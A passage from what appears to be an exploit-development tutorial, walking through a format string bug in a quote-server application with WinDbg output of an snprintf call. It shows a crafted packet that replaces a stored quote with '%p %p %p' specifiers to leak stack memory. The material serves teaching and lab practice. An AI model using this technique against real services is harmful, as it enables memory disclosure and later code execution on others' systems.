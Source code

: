 The second is examining the stack at the time of the call to learn more about the arguments:

(Note: In this example, a packet was sent to instruct the application to read the quote that is associated with index 1)

```text
main+0x15ae:
00b715ae e8fd150000      call    main!main+0xd27 (00b72bb0)
0:002> dds esp L3
01db7390  015b4648
01db7394  00000800
01db7398  00b80280 main!main+0xe3f7
```

Using the function signature above, the arguments can be identified:

- `0x015b4648` => destination buffer
- `0x800` => size of copy
- `0x00b80280` => format string pointer

Displaying the ASCII contents of the format string pointer shows the following:

```text
0:002> da 0x00b80280
00b80280  "Give a man a mask and he'll tell"
00b802a0  " you the truth. - Oscar Wilde"
```

Stepping over the `snprintf()` call, and displaying the contents of the destination buffer shows it was overwritten with the string:

```text
0:002> db 0x015b4648
015b4648  47 69 76 65 20 61 20 6d-61 6e 20 61 20 6d 61 73  Give a man a mas
015b4658  6b 20 61 6e 64 20 68 65-27 6c 6c 20 74 65 6c 6c  k and he'll tell
015b4668  20 79 6f 75 20 74 68 65-20 74 72 75 74 68 2e 20   you the truth. 
015b4678  2d 20 4f 73 63 61 72 20-57 69 6c 64 65 00 ad ba  - Oscar Wilde...
```

Let's now introduce a modified packet that will reassign the quote at index 1 to a format specifier by leveraging the `update_functionality` mentioned earlier - in this case, updating the quote to include three `%p` specifiers which should return three hex values.

After sending the packet which instructs the application to update the quote, let's retrigger the `get_quote()` functionality and examine the stack at the time of the call to `snprintf()`:

```text
main+0x15ae:
00b715ae e8fd150000      call    main!main+0xd27 (00b72bb0)
0:002> dds esp L3
021b7564  015b4e60
021b7568  00000800
021b756c  00b80280 main!main+0xe3f7
```

Displaying the ASCII contents of the format string specifier reveals:

```text
0:002> da 00b80280 
00b80280  "%p %p %p"
```
